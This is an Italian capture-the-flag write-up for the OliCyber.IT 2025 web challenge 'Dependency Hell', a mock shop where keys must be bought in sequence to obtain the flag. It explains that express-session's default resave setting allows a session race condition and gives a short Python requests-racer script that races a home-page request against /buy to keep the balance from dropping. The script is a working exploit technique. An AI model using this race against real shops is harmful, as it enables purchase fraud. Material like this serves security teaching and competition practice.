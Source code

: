 # OliCyber.IT 2025 - Competizione nazionale

## [web] Dependency Hell (3 solves)

Voglio comprare la flag, ma non ho abbastanza chiavi!

[https://dependency-hell.challs.olicyber.it](https://dependency-hell.challs.olicyber.it)

Author: Lorenzo Leonardini <@pianka>

## Panoramica

La challenge si presenta come un negozio online, con 4 oggetti disponibili:

- chiave rossa
- chiave verde
- chiave blu
- flag

Per acquistare gli oggetti esiste una sorta di sistema di dipendenze: per comprare la flag serve la chiave blu, per comprare la chiave blu serve la chiave verde, e per comprare la chiave verde serve la chiave rossa.

Abbiamo saldo sufficiente solo per acquistare 2 oggetti.

## Soluzione

Se consultiamo la documentazione di `express-session`, troviamo alcune opzioni interessanti:

> **resave**
> Forces the session to be saved back to the session store, even if the session was never modified during the request. Depending on your store this may be necessary, but **it can also create race conditions** where a client makes two parallel requests to your server and changes made to the session in one request may get overwritten when the other request ends, even if it made no changes (this behavior also depends on what store you're using).
>
> **The default value is true**, but using the default has been deprecated, as the default will change in the future.

Dato che l'opzione `resave` non è specificata, e il default è a `true`, come dice la documentazione, l'applicazione potrebbe essere vulnerabile a race conditions.

Dobbiamo solamente fare in modo che il server gestisca due richieste allo stesso tempo: una alla home page, usata per risalvare il nostro corrente saldo, e una all'endpoint `/buy`, per comprare l'oggetto che vogliamo.

## Exploit

Per effettuare la race, usiamo la libreria [requests-racer](https://github.com/nccgroup/requests-racer). Nota: non funziona con l'ultima versione di Python.

```py
#!/usr/bin/env python3

import os
import requests
from requests_racer import SynchronizedAdapter

URL = os.environ.get("URL", "https://localhost:3000")
if URL.endswith("/"):
    URL = URL[:-1]

s = requests.Session()
s.get(f'{URL}')

sync = SynchronizedAdapter()
s.mount('http://', sync)
s.mount('https://', sync)

pw = None

# we buy one item at the time
for part in ['red_key', 'green_key', 'blue_key', 'flag']:
    s.get(f'{URL}')
    r = s.post(f'{URL}/buy', json={'item': part, 'key': pw})

    # race!
    sync.finish_all()

    data = r.json()
    print(data)
    if not 'message' in data:
        exit(1)

    if 'bought the flag' in data['message']:
        print(data['item'])
        exit(0)

    pw = data['item']
```

